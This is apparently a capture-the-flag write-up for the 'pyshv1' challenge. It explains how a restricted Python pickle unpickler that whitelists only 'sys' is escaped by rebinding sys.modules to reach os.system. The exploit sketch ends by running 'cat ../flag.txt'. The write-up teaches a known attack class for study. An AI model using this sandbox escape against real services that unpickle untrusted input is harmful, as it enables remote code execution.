 ```yaml
---
name: pyshv1
category: misc
points: 572
solves: 13
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.cf/ctf/)
{% endignore %}


> Continuous delivery is awesome.  
> We deploy our code to production whenever we can.  
> No code, no vulnerability.  
> Everything works great.  


# Overview, Concept and Design Criteria
Intially, I wanted to create some reverse challenge using pickle.
(Yep, one of that strange language series)

However, when I playing with pickle VM,
I realized that it's RIDICULOUSLY POWERFUL.

It shouldn't be limited to some noob `__reduce__` RCE.

Make pickle-pwn great again.


# Solution
## Behavior
In this task, we can send a pickle file to the server.
```python
def login(self):
    user = input().encode('ascii')
    user = codecs.decode(user, 'base64')
    user = pickle.loads(user)
```

The packages that can be imported is limited to `sys` only.
Also, deep import features starting from python3 is blocked.
```python
# See https://docs.python.org/3.7/library/pickle.html#restricting-globals
class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)

# ...

pickle.whitelist.append('sys')
```

## Pickle
Pickle is a stack-based VM that is aiming for construct structure.
It has many data manipulation operations.
The only disadvantage is that there's no read operations because you should already know what you constructed.

You can find the pure python implementation of pickle from 
[github](https://github.com/python/cpython/blob/3.6/Lib/pickle.py) 
or `/usr/lib/python3.6/pickle.py`.

Let's see some operations will need in this task.
```
# Import root level attribute
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args

# Call function
REDUCE         = b'R'   # apply callable to argtuple, both on stack

# Set attribute for class
BUILD          = b'b'   # call __setstate__ or __dict__.update()

# Set item in dict
SETITEM        = b's'   # add key+value pair to dict
```

`GLOBAL` (with our own filter) can only import attribute in root level, that is, importing `a.b` is OK, but importing `a.b.c` is disallowed.

## sys module
`sys` has many interesting things inside. One of them is `sys.modules`, which is a cache of imported modules.

Pickle also use `sys.modules`: 
```
def find_class(self, module, name):
    # Subclasses may override this.
    if self.proto < 3 and self.fix_imports:
        # ...
        pass

    __import__(module, level=0)

    # ...

    return getattr(sys.modules[module], name)
```

If we change `sys.modules['sys']` to other things, we can get some attribute of it!!

My exploit looks like:
```python
sys.modules['sys'] = sys.modules

import sys.get as sys.modules.get

os = sys.modules.get('os')

sys.modules['sys'] = os

import sys.system as os.system

os.system('cat ../flag.txt')
```

You can find the final pickle bytecode [here]([_files/solution/solve.py]).
